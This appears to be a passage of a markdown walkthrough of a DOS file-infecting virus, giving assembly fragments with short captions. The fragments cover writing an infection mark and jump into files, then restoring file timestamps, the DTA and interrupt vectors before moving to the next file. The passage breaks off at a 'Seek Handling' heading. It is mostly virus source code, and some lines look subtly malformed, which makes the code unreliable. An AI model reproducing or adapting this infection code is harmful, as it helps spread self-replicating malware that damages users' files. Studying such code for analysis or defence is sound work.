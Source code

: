 ```assembly
                xchg    ax,bp
                mov     al,0                    ;go to begin of file
                call    seek

                mov     word ptr [si],0E94Dh    ;write mark and jump-command
                mov     word ptr [si+2],bp
                mov     ah,40h
                int     21

                inc     byte ptr [di]           ;number of next son
```
- Opens files, checks if they are already infected, and if not, infects them.

## Restoration and End of Infection

```assembly
return2:        pop     dx                      ;restore file date & time
                pop     cx
                mov     ax,5701h
                int     21

                mov     ah,3Eh                  ;close the file
                int     21

return1:        mov     ah,4Fh                  ;find next file
                jmp     short infloop

stop:           pop     dx                      ;restore DTA address
                pop     ds
                mov     ah,1Ah
                int     21

                pop     ax                      ;restore int24 vector
                pop     ds
                pop     dx
                int     21

                pop     ax                      ;restore ctrl-break flag
                pop     dx
                int     21

                push    cs
                push    cs
                pop     ds
                pop     es

                ret
```
- Ends the infection and restores the DTA addresses and interrupt vectors.

## Seek Handling
